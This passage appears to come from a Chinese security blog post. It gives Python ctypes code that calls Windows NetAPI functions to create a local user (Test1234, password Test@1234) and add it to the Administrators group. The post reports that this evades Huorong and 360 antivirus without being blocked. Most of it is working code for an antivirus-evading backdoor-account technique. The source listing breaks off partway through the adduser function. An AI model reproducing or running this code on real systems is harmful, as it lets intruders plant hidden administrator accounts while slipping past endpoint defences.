然后使用该数据结构构造一个对象，并传入相应的参数  

```
name = _LOCALGROUP_MEMBERS_INFO_3()
name.lgrmi3_domainandname = username
```

NetLocalGroupAddMembers 函数直接操作即可  

```
LPBYTE = POINTER(c_byte)
ctypes.windll.Netapi32.NetLocalGroupAddMembers.argtypes = (wintypes.LPCWSTR,wintypes.LPCWSTR,wintypes.DWORD,LPBYTE,wintypes.DWORD)
b = ctypes.windll.Netapi32.NetLocalGroupAddMembers(None, groupname, 3, LPBYTE(name), 1)
if b == 0:
   print("add group success : name={} group={}".format(username, groupname))
else:
   print("add group error")
```

测试

环境使用的 py2.7，测试火绒和 360  

默认添加 Test1234，密码 Test@1234，组 Administrators

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSNA5s66pv8dxcXbUJcX3aVd4IaFfBPCWIqBf64aRasYGFxqez2j9s5QXZcljr5MGVDulQdW4AIU3g/640?wx_fmt=png)

**成功绕过，无拦截**  

源码：

```
# XG小刚
import ctypes
from ctypes import wintypes
from ctypes import *
import sys

USER_PRIV_GUEST = 0
USER_PRIV_USER = 1
USER_PRIV_ADMIN = 2
UF_SCRIPT = 1
UF_NORMAL_ACCOUNT = 512

LPBYTE = POINTER(c_byte)

class USER_INFO_1(ctypes.Structure):
    _fields_ = [
        ('usri1_name',wintypes.LPWSTR),
        ('usri1_password',wintypes.LPWSTR),
        ('usri1_password_age',wintypes.DWORD),
        ('usri1_priv',wintypes.DWORD),
        ('usri1_home_dir',wintypes.LPWSTR),
        ('usri1_comment',wintypes.LPWSTR),
        ('usri1_flags',wintypes.DWORD),
        ('usri1_script_path',wintypes.LPWSTR)
    ]

class _LOCALGROUP_MEMBERS_INFO_3(ctypes.Structure):
    _fields_ = [
        ('lgrmi3_domainandname', wintypes.LPWSTR)
    ]

def adduser(username = 'Test1234',password = 'Test@1234'):
    ui = USER_INFO_1()
    ui.usri1_name =username
    ui.usri1_password =password
```